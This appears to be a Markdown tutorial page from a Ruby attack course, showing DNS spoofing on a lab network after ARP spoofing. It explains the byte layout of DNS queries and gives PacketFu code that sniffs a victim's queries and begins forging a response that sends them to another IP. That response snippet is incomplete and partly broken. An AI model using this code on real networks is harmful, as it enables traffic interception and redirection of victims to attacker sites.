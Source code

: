 # DNS Spoofing
Continuing our attack through [ARP Spoofing](module_0x4__network_kungfu/arp_spoofing.md), we want to change the victim's DNS request to whatever destination we like.

### Scenario
```
                |Attacker|
                    | AttackerSite
                    ٧                      AttackerSite
|Victim| ----------/ \----------> |Router| ----------> Internet
          AnySite      AttackerSite
```
> Keep the ARP spoof attack running

The same IPs of ARP spoof attack

| Host        |   IP Address  |
|:-----------:|:-------------:|
| Attacker    | 192.168.0.100 |
| Victim      | 192.168.0.21  |
| Router      | 192.168.0.1   |



Now we cant intercept DNS Query packet coming from victim's machine. Since PacketFu supports filters in capturing (to reduce mount of captured packets) we'll use `udp and port 53 and host` filter, then we'll inspect the captured packet to ensure that it's a query then find the requested domain..........

From wireshark, if we take a deeper look at the DNS query payload in `Domain Name System (query)`, we can see its been presented in hexdecimal format.

| ![Wireshark](../images/module03/dns_spoofing_wireshark1.png) |
|:---------------:|
| **Figure 1.** DNS query Payload  |


Let's to anatomize our payload
```
0000   e7 1d 01 00 00 01 00 00 00 00 00 00 07 74 77 69
0010   74 74 65 72 03 63 6f 6d 00 00 01 00 01
```
* The First 2 bytes is the **Transaction ID** and we don't care about it for now. (Our case: `\xe7\x1d`)
* The Nex 2 bytes is the **Flags**[^3]. (We need: `\x01\x00` = \x10)
* Farthermore, in **Queries** section which contains

```
0000   07 74 77 69 74 74 65 72 03 63 6f 6d 00 00 01 00
0010   01
```



* The **Queries** starts at *13 byte* of the payload.
    * The13th byte specifies the length of the domain name *before* the *very first dot* (without last dot com or whatever the top domain is). (Our case: `\x07`)
        **Try:**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`
        * Notice The domain name of "twitter.com" equals `\x07` but "www.twitter.com" equals `\x03` the same consideration for subdomains
        * Each dot after first dot will be replaced with the length of the followed characters

        **e.g.** www.google.co.uk
            * First length (**www**)  => will be replaced with `\x03`
            * First dot(**.google**) => will be replaced with `\x06`
            * Second dot(**.co**)    => will be replaced with `\x02`
            * Third dot(**.uk**)     => will be replaced with `\x02`

    * The very end of the domain name string is terminated by a `\x00`.
    * The next 2 bytes refers to the **type of the query**[^4]. (Our case: `\x00\x01`)




**Now what?!**

* We need to start capturing/sniffing on specific interface
* We need to enable promiscuous mode on our interface
* We need to capture UDP packets on port 53 only
* We need parse/analyze the valid UDP packets only
* We need to make sure this packet is a DNS query
* We need to get the queried/requested domain
    * We need to know the domain length
    * We need to get the FQDN
* Build a DNS response
* Replace the requested domain with any domain we want
* Re inject the packet into victim connection and send

I'll divide our tasks then wrap it up in one script

```ruby
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
#    * We need to know the domain length
#    * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1..full_length + length_offset]
    full_length   = raw_domain[0..full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

# * We need parse/analize the valide UDP packets only
# * We need to make sure this packet is a DNS query
#
# Find the DNS packets
#
capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    @packet = Packet.parse(pkt)

    # Make sure we have a query packet
    dns_query = @packet.payload[2..3].to_s

    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = @packet.payload[12..-1].to_s # FULL QUERY
      fqdn = readable(domain_name)

      # Ignore non query packet
      next if domain_name.nil?

      puts "DNS request for: " + fqdn
    end
  end
end
```
Till now we successfully finished [ARP Spoofing](module_0x3__network_kungfu/arp_spoofing.md) then DNS cupturing but still we need to replace/spoof the original response to our domain. eg. attacker.zone
Great, now we have to build a DNS response instead of spoofed to be sent. So what we need?

* taking the IP we are going to redirect the user to (the spoofing_ip)
    * converting it into hex using the to_i and pack functions.
* From there we create a new UDP packet using the data contained in @ourInfo (IP and MAC) and fill in the normal UDP fields.
    * I take most of this information straight from the DNS Query packet.
* The next step is to create the DNS Response.
    * he best way to understand the code here is to look at a DNS header and then
    * take the bit map of the HEX values and apply them to the header.
    * This will let you see what flags are being set.
* From here, we just calculate the checksum for the UDP packet and send it out to the target’s machine.



```ruby

spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61"


```



https://github.com/SilverFoxx/Spoofa/blob/master/spoofa

Sources[^1] [^2] - The code has been modified and fixed

<br><br><br>
---
[^1]: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
[^2]: [Manipulating The Network with PacketFu](http://tuftsdev.github.io/DefenseOfTheDarkArts/assignments/manipulatingthenetworkwithpacketfu-110314111058-phpapp01.pdf)
[^3]: [DNS Header Flags](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-12)
|   Bit  | Flag | Description          | Reference |
|:------:|------|----------------------|-----------|
| bit 5  |  AA  | Authoritative Answer | [RFC1035] |
| bit 6  |  TC  | Truncated Response   | [RFC1035] |
| bit 7  |  RD  | Recursion Desired    | [RFC1035] |
| bit 8  |  RA  | Recursion Allowed    | [RFC1035] |
| bit 9  |      | Reserved             |           |
| bit 10 |  AD  | Authentic Data       | [RFC4035] |
| bit 11 |  CD  | Checking Disabled    | [RFC4035] |
[^4]: [DNS Lookups Types](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4)
|  Type | Value |               Description               |
|:-----:|:-----:|:---------------------------------------:|
| A     | 1     | IP Address                              |
| NS    | 2     | Name Server                             |
| CNAME | 5     | Alias of a domain name                  |
| PTR   | 12    | Reverse DNS Lookup using the IP Address |
| HINFO | 13    | Host Information                        |
| MX    | 15    | MX Record                               |
| AXFR  | 252   | Request for Zone Transfer               |
| ANY   | 255   | Request for All Records                 |
